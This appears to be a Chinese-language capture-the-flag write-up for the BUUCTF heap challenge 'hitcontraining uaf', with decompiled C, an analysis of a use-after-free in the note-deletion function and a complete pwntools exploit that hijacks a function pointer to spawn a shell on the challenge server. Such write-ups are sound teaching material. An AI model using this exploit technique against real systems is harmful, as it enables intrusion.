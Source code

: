 ```yaml
---
author: 
  name: Zephyr
title: hitcontraining uaf
date: 2022-4-11 15:32:17
permalink: /pages/2e1547494524d1b3
tags: 
  - buuctf
  - pwn
  - heap
---
```


# hitcontraining uaf

## 前提

### 查看文件保护

```shell
[*] '/root/pwn/buuctf/hitcontraining_uaf/hacknote'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```

## 静态分析

主函数如下：

```c
int __cdecl __noreturn main(int argc, const char **argv, const char **envp)
{
  int v3; // eax
  char buf; // [esp+0h] [ebp-Ch]
  int *v5; // [esp+4h] [ebp-8h]

  v5 = &argc;
  setvbuf(stdout, 0, 2, 0);
  setvbuf(stdin, 0, 2, 0);
  while ( 1 )
  {
    while ( 1 )
    {
      menu();
      read(0, &buf, 4u);
      v3 = atoi(&buf);
      if ( v3 != 2 )
        break;
      del_note();
    }
    if ( v3 > 2 )
    {
      if ( v3 == 3 )
      {
        print_note();
      }
      else
      {
        if ( v3 == 4 )
          exit(0);
LABEL_13:
        puts("Invalid choice");
      }
    }
    else
    {
      if ( v3 != 1 )
        goto LABEL_13;
      add_note();
    }
  }
}
```

add_note函数如下：

```c
void *add_note()
{
  void *result; // eax
  _DWORD *v1; // esi
  char buf; // [esp+0h] [ebp-18h]
  size_t size; // [esp+8h] [ebp-10h]
  int i; // [esp+Ch] [ebp-Ch]

  result = (void *)count;
  if ( count > 5 )
    return (void *)puts("Full");
  for ( i = 0; i <= 4; ++i )
  {
    result = notelist[i];
    if ( !result )
    {
      notelist[i] = malloc(8u);
      if ( !notelist[i] )
      {
        puts("Alloca Error");
        exit(-1);
      }
      *(_DWORD *)notelist[i] = print_note_content;
      printf("Note size :");
      read(0, &buf, 8u);
      size = atoi(&buf);
      v1 = notelist[i];
      v1[1] = malloc(size);
      if ( !*((_DWORD *)notelist[i] + 1) )
      {
        puts("Alloca Error");
        exit(-1);
      }
      printf("Content :");
      read(0, *((void **)notelist[i] + 1), size);
      puts("Success !");
      return (void *)(count++ + 1);
    }
  }
  return result;
}
```

print_note函数如下：

```c
void *print_note()
{
  void *result; // eax
  char buf; // [esp+8h] [ebp-10h]
  int v2; // [esp+Ch] [ebp-Ch]

  printf("Index :");
  read(0, &buf, 4u);
  v2 = atoi(&buf);
  if ( v2 < 0 || v2 >= count )
  {
    puts("Out of bound!");
    _exit(0);
  }
  result = notelist[v2];
  if ( result )
    result = (void *)(*(int (__cdecl **)(void *))notelist[v2])(notelist[v2]);
  return result;
}
```

del_note函数如下：

```c
int del_note()
{
  int result; // eax
  char buf; // [esp+8h] [ebp-10h]
  int v2; // [esp+Ch] [ebp-Ch]

  printf("Index :");
  read(0, &buf, 4u);
  v2 = atoi(&buf);
  if ( v2 < 0 || v2 >= count )
  {
    puts("Out of bound!");
    _exit(0);
  }
  result = (int)notelist[v2];
  if ( result )
  {
    free(*((void **)notelist[v2] + 1));
    free(notelist[v2]);
    result = puts("Success");
  }
  return result;
}
```

magic函数如下：

```c
int magic()
{
  return system("/bin/sh");
}
```



## 思路分析

1. 目前信息：

   - `del_note`函数释放内存时没有清空指针，存在`uaf`
   - 存在后门函数`magic`
   - Partial RELRO
   - No canary found
   - NX enabled
   - No PIE
2. 思路：
   - 一次`add_note`函数的执行将申请`2`个堆块，第一个堆块大小为`8`字节且为堆块的控制部分，分别存放`print_note`函数地址与第二个自定义大小的堆块地址，这里选择先申请`2`个大堆块，分别释放后，大小不同的`2`个`bins`分别串起来对应的数据，这时申请自定义大小刚好为`8`字节的堆块，将会把`2`个`8`字节堆块都申请回来使用，根据后进先出的原理，原来第二个堆块的控制堆块成为第三个堆块的控制堆块，第一个堆块的控制堆块则成为第三个堆块的数据堆块，这时更改其中的函数指针为`backdoor`地址，对第一个块执行`print_note`即可获得`shell`

## exp

```python
from pwn import *
context.terminal = ['tmux', 'splitw', '-h']
context(os='linux', arch='i386', log_level='debug')
pwnfile = '/root/pwn/buuctf/hitcontraining_uaf/hacknote'
io = remote('node4.buuoj.cn', 28145)
# io = process(pwnfile)

def Create(io, size, content):
    io.sendlineafter(":", '1')
    io.sendlineafter(":", str(size))
    io.sendlineafter(":", content)

def Delete(io, index):
    io.sendlineafter(":", '2')
    io.sendlineafter(":", str(index))

def Print(io, index):
    io.sendlineafter(":", '3')
    io.sendlineafter(":", str(index))
    
elf = ELF(pwnfile)
back_door = elf.symbols['magic']
Create(io, 0x10, 'aaaa')
Create(io, 0x10, 'bbbb')
Delete(io, 0)
Delete(io, 1)
Create(io, 0x8, flat([back_door]))
Print(io, 0)
io.interactive()
```